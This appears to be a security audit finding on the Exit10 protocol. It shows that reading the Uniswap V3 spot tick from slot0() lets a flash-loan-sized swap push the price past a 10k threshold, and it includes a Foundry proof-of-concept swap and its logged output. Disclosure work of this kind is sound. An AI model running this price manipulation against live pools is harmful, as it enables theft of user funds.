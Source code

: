 `_currentTick()` is [taken from `slotO()`](https://github.com/open-bakery/exit10-protocol/blob/0b3c2782c5a93d2218234bc70fee31ec32f9e337/src/Exit10.sol#L544-L546)

```solidity
function _currentTick() internal view returns (int24 _tick) {
  (, _tick, , , , , ) = POOL.slot0();
}
```

The tick value returned by `slotO()` is the current tick and moves as the liquidity inside the pool is used up during swaps.
If the USDC cumulated liquidity from the current price up to 10k is less than what can be obtained with a flash loan, then it is possible to take a flashloan and make a swap which will push the price beyond 10k.

At this moment on Optimism there is:

- 3.24M of USDC liquidity on UniV3 WETH/USDC 500 pool
- 8M USDC available to borrow on AaveV3

The following PoC shows how a 4M USDC to ETH swap will manipulate the current tick to more than -184210 (corresponds to 10k on Optimism).

```solidity
function testManipulate() public {
    console2.log("block number:", block.number);
    (uint160 sqrtPriceX96Init, int24 tickInit, , , , , ) = pool.slot0();
    // Take USDC from a large holder instead of flashloan for simplicity
    address atck = address(0xEbe80f029b1c02862B9E8a70a7e5317C06F62Cae);
    uint value = 4_000_000 * 1e6;
    vm.startPrank(atck);
    IERC20(pool.token1()).approve(address(router), value);
    ISwapRouter.ExactInputSingleParams memory params = ISwapRouter.ExactInputSingleParams(
        pool.token1(), // USDC
        pool.token0(), // WETH
        500,
        atck,
        block.timestamp,
        value,
        0,
        0
    );
    router.exactInputSingle(params);
    vm.stopPrank();
    (uint160 sqrtPriceX96Fin, int24 tickFin, , , , , ) = pool.slot0();
    console2.log("tickInit:", tickInit);
    console2.log("tickFin:", tickFin);
}
```

which outputs:

```
Logs:
  block number: 95682224
  tickInit: -201109
  tickFin: -102138
```
